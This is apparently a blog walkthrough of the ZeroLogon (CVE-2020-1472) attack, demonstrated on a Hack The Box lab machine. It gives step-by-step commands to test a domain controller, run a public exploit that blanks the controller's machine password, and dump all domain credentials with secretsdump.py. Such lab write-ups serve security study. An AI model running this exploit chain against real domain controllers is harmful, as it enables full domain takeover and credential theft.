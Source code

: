 ```yaml
---
layout: single
title:  "CVE-2020-1472 - ZeroLogon"
date:   2020-09-18 08:49:23 +0100
categories: windows
excerpt: Simple Walkthrough of using the ZeroLogon exploit
---
```


## Overview
The attack described here takes advantage of flaws in a cryptographic authentication protocol that proves the authenticity and identity of a domain-joined computer to the DC. Due to incorrect use of an AES mode of operation it is possible to spoof the identity of any computer account (including that of the DC itself) and set an empty password for that account in the domain. (Secura)

## WhitePaper

[**Found Here**](https://www.secura.com/pathtoimg.php?id=2055)

## Installation

Firstly, you need the latest version of impacket from [here](https://github.com/SecureAuthCorp/impacket)

{% highlight powershell linenos %}
git clone https://github.com/SecureAuthCorp/impacket.git
{% endhighlight %}

![](/images/zerologon/clone.png)


Then cd into the folder and execute

{% highlight powershell linenos %}
pip3 install .
{% endhighlight %}

![](/images/zerologon/install-impacket.png)


## Testing if a DC is vulnerable
Spoiler, they probably are.

First, clone the following [repo](https://github.com/SecuraBV/CVE-2020-1472) and install the requirements

{% highlight powershell linenos %}
git clone https://github.com/SecuraBV/CVE-2020-1472.git
{% endhighlight %}

![](/images/zerologon/tester.png)


{% highlight powershell linenos %}
cd CVE-2020-1472
pip3 install -r requirements.txt
{% endhighlight %}

![](/images/zerologon/tester-setup.png)

### Running the Check Script

Now that we have the testing script installed, we can check a host to see if they are vulnerable, I will be running this against the [Multimaster machine](https://www.hackthebox.eu/home/machines/profile/232) from Hack The Box.

The command is as follows:
{% highlight powershell linenos %}
python zerologon_tester.py <DC netbios name> <DC-IP>
{% endhighlight %}

![](/images/zerologon/compromised-tester.png)

Bingo! We can see that the host is vulnerable!


## Exploiting a Domain Controller

### Risks
If you are doing this in a working production environment then you need to make sure you have the hash of the Domain Controller Machine Account as this wil be needed to reset the host after you have exploited it, otherwise it will no longer be able to communicate with other DC's.

### Getting the POC

To get the exploit, clone this [git repo](https://github.com/dirkjanm/CVE-2020-1472) and make sure you have impacket installed

{% highlight powershell linenos %}
git clone https://github.com/dirkjanm/CVE-2020-1472.git
{% endhighlight %}

![](/images/zerologon/exploit.png)

Now we can run the exploit against our vulnerable target machine

{% highlight powershell linenos %}
python cve-2020-1472-exploit.py <NETBIOS NAME> <DC-IP>
{% endhighlight %}

![](/images/zerologon/exploit-1.png)

If all was sucessfull you will get a `Result: 0`

### Dumping Domain Secrets with secretsdump.py

Now we have set the machine password to an empty string, "", we can now DCSync with secretsdump.py to get all the domain secrets.

{% highlight powershell linenos %}
secretsdump.py -just-dc -no-pass DCHOSTNAME$@DC-IP
{% endhighlight %}

![](/images/zerologon/exploit-2.png)

And just like that I've owned your whole AD Environment, in less that two minutes.


## Respect
If you enjoyed the write up or found it useful consider + repping my htb profile linked below:

[![HTB](http://www.hackthebox.eu/badge/image/210952.png)](https://www.hackthebox.eu/home/users/profile/210952)

